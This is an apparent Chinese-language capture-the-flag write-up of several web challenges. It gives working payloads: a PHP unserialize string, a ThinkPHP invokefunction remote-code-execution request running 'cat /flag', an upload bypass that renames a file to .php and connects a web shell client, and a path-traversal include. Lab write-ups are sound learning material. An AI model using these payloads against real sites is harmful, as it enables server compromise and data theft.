

# unserialize3


需要反序列化一下：O:4:"xctf":2:{s:4:"flag";s:3:"111";}


# php_rce


题目提示rce漏洞，测试一下：?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1


flag：?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat /flag


# Web_php_include



```csharp
show_source(__FILE__);
show_source()是 PHP 的内置函数，其作用是读取并高亮显示指定文件的源代码
__FILE__是 PHP 的魔术常量，代表当前正在执行的脚本文件的完整路径和文件名。所以这行代码的功能是显示当前 PHP 文件的源代码

echo $_GET['hello'];
$_GET是 PHP 的一个超全局变量，用于获取通过GET请求方法传递的参数
这行代码会输出GET请求中名为hello的参数的值

$page=$_GET['page'];
此代码将GET请求中名为page的参数的值赋给变量$page

while (strstr($page, "php://")) {
    $page=str_replace("php://", "", $page);
}
strstr()是 PHP 的内置函数，用于查找字符串在另一个字符串中首次出现的位置。若找到，则返回从该位置开始到字符串结尾的部分；若未找到，则返回false
str_replace()也是 PHP 的内置函数，用于将字符串中的指定子字符串替换为另一个字符串
这部分代码运用while循环持续检查$page变量中是否包含php://字符串，若包含则将其替换为空字符串，直至$page中不再包含php://

include($page);
include()是 PHP 的内置函数，用于包含并执行指定的文件
这行代码尝试包含并执行$page变量所指定的文件
```

flag


# upload1


要jpg和png后缀


上传以后修改为php后缀


用蚁剑连接找到flag


# warmup


查看一下/source.php


看一下/hint.php


/?file=hint.php?/../../../../ffffllllaaaagggg


